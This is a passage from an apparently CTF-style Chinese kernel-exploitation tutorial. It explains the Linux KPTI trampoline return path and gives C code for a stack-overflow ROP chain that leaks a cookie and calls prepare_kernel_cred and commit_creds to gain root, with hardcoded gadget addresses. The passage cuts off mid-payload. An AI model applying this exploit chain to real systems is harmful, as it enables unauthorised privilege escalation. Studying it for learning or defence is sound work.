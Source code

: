 关于`mov    rsp,QWORD PTR gs:0x6004`这个栈，源码解释为：

> ```assembly
> 	/*
> 	 * The stack is now user RDI, orig_ax, RIP, CS, EFLAGS, RSP, SS.
> 	 * Save old stack pointer and switch to trampoline stack.
> 	 */
> 	movq	%rsp, %rdi
> 	movq	PER_CPU_VAR(cpu_tss_rw + TSS_sp0), %rsp
> 
> 	/* Copy the IRET frame to the trampoline stack. */
> 	pushq	6*8(%rdi)	/* SS */
> 	pushq	5*8(%rdi)	/* RSP */
> 	pushq	4*8(%rdi)	/* EFLAGS */
> 	pushq	3*8(%rdi)	/* CS */
> 	pushq	2*8(%rdi)	/* RIP */
> 
> 	/* Push user RDI on the trampoline stack. */
> 	pushq	(%rdi)
> 
> 	/*
> 	 * We are on the trampoline stack.  All regs except RDI are live.
> 	 * We can do future final exit work right here.
> 	 */
> 
> 	SWITCH_TO_USER_CR3_STACK scratch_reg=%rdi
> 
> 	/* Restore RDI. */
> 	popq	%rdi
> 	SWAPGS
> 	INTERRUPT_RETURN
> ```

就是内核准备的一个中转栈，那从`movq	%rsp, %rdi`开始使用

只需要在overflow的时候多压入两个padding数据即可：

```c
unsigned long PopRdiRet = 0xffffffff815f88ec;               //pop rdi ; ret
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;

unsigned long MovRdiRaxRet = 0xffffffff8166fea3;            //mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long CmpRdxRet = 0xffffffff81964cc4;               //cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long PopRdxRet = 0xffffffff815f3327;               //pop rdx ; ret


unsigned long commit_creds = 0xffffffff814c6410;
unsigned long SwapgsRet = 0xffffffff8120109c;               //swapgs ; pop rbp ; ret
unsigned long Iret = 0xffffffff8100c0d9;

unsigned long KptiBack = 0xffffffff81200f10;                //swapgs_restore_regs_and_return_to_usermode
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; 
    payload[off++] = 0x0; 
    payload[off++] = 0x0; // rbp
    payload[off++] = PopRdiRet; // ret
    payload[off++] = 0;
    payload[off++] = prepare_kernel_cred;
    
```